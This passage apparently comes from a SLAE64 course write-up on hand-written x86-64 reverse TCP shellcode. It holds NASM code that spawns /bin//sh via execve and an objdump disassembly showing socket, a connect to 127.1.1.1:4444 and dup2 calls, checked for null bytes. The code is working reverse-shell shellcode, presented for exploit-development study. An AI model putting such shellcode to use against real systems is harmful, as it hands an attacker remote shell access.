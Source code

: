 ```nasm

	mov rbx, 0x68732f2f6e69622f
	push rbx

	mov rdi, rsp

	push rax

	mov rdx, rsp

	push rdi
	
	mov rsi, rsp

	add rax, 59
	syscall
```

After compilation and execution of the `objdump` program we can see that there are no nullbytes.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ ./compile.sh reverse-shellcode-course
[+] Assembling with Nasm ... 
[+] Linking ... 
[+] Done!
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ objdump -d ./reverse-shellcode-course -M intel

./reverse-shellcode-course:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	b0 29                	mov    al,0x29
  400082:	48 31 ff             	xor    rdi,rdi
  400085:	48 83 c7 02          	add    rdi,0x2
  400089:	48 31 f6             	xor    rsi,rsi
  40008c:	48 83 c6 01          	add    rsi,0x1
  400090:	48 31 d2             	xor    rdx,rdx
  400093:	0f 05                	syscall 
  400095:	48 89 c7             	mov    rdi,rax
  400098:	48 31 c0             	xor    rax,rax
  40009b:	50                   	push   rax
  40009c:	c7 44 24 fc 7f 01 01 	mov    DWORD PTR [rsp-0x4],0x101017f
  4000a3:	01 
  4000a4:	66 c7 44 24 fa 11 5c 	mov    WORD PTR [rsp-0x6],0x5c11
  4000ab:	c6 44 24 f8 02       	mov    BYTE PTR [rsp-0x8],0x2
  4000b0:	48 83 ec 08          	sub    rsp,0x8
  4000b4:	48 83 c0 2a          	add    rax,0x2a
  4000b8:	48 89 e6             	mov    rsi,rsp
  4000bb:	48 31 d2             	xor    rdx,rdx
  4000be:	48 83 c2 10          	add    rdx,0x10
  4000c2:	0f 05                	syscall 
  4000c4:	48 31 c0             	xor    rax,rax
  4000c7:	48 83 c0 21          	add    rax,0x21
  4000cb:	48 31 f6             	xor    rsi,rsi
  4000ce:	0f 05                	syscall 
  4000d0:	48 31 c0             	xor    rax,rax
  4000d3:	48 83 c0 21          	add    rax,0x21
  4000d7:	48 83 c6 01          	add    rsi,0x1
  4000db:	0f 05                	syscall 
  4000dd:	48 31 c0             	xor    rax,rax
```